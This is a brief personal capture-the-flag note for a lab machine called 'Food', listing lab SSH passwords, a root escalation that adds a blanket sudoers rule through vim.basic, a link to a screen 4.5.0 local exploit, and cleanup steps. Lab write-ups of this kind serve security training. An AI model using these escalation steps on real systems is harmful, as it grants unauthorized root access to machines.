 Food

https://jc01.ninja/ctf/foodctf/ (I will be doing my path to exploit, see this writeup if you want throurough solution)

`ssh food@ip` passwod givemecookies

CHANGE PASSWORD
`/usr/sbin/passwd`

`/bin/su`

`ssh ramen@ip` password noodlesRTheBest

CHANGE PASSWORD

`ssh pasta@ip` password pastaisdynamic

CHANGE PASSWORD

food may be missing path, use `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin`

Exploit:

`vim.basic sudoers` add `USER ALL=(ALL:ALL) ALL` then `sudo su`

Alternative:

https://www.exploit-db.com/exploits/41154

MAKE SURE YOU REMOVE THE SCRIPT AND ROOTFILE AFTER DONE

`chmod 0755 /usr/bin/screen /usr/bin/screen-4.5.0 /usr/bin/vim.basic`
`visudo` --> remove the pwfeedback
